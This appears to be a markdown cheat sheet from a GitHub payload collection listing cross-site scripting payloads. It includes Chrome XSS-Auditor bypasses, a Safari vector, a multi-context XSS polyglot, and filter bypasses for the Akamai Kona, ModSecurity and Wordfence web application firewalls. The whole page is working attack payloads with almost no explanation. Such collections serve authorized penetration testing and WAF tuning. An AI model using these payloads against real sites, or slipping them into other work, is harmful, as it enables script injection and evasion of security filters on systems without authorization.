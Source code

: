 ## XSS

**Chrome XSS-Auditor Bypass** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

**Chrome < v60 beta XSS-Auditor Bypass**

```html
<script src="data:,alert(1)%250A-->
```

**Other Chrome XSS-Auditor Bypasses**

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari XSS Vector** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Kona WAF (Akamai) Bypass**

```html
\');confirm(1);//
```

**ModSecurity WAF Bypass**
Note: This kind of depends on what security level the application is set to. See: https://modsecurity.org/rules.html
```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses**

```html
<meter onmouseover="alert(1)"
```
